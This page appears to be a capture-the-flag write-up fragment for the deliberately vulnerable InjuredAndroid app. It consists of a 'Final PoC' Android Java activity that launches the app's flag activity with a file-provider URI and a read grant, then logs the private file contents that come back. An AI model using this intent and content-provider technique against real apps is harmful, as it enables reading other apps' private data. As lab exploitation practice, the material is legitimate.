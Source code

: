 **Final PoC**
```java
package b3nacinjured.pocformyohnocontentprovider;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;

import com.google.android.material.floatingactionbutton.FloatingActionButton;
import com.google.android.material.snackbar.Snackbar;

import androidx.appcompat.app.AppCompatActivity;
import androidx.appcompat.widget.Toolbar;

import android.util.Log;
import android.view.View;

import org.apache.commons.io.IOUtils;

import java.io.IOException;
import java.util.Objects;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Toolbar toolbar = findViewById(R.id.toolbar);
        setSupportActionBar(toolbar);

        FloatingActionButton fab = findViewById(R.id.fab);
        fab.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View view) {
                Snackbar.make(view, "OHNO PoC", Snackbar.LENGTH_LONG)
                        .setAction("Action", null).show();
            }
        });

        Intent intent = new Intent();
        intent.setData(Uri.parse("content://b3nac.injuredandroid.fileprovider/files/test"));
        intent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
        intent.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagEighteenActivity");
        startActivityForResult(intent, 0);

    }

    protected void onActivityResult( int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);

        try {
            Log.d("OHNO", IOUtils.toString(Objects.requireNonNull(getContentResolver().openInputStream(Objects.requireNonNull(data.getData())))));
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
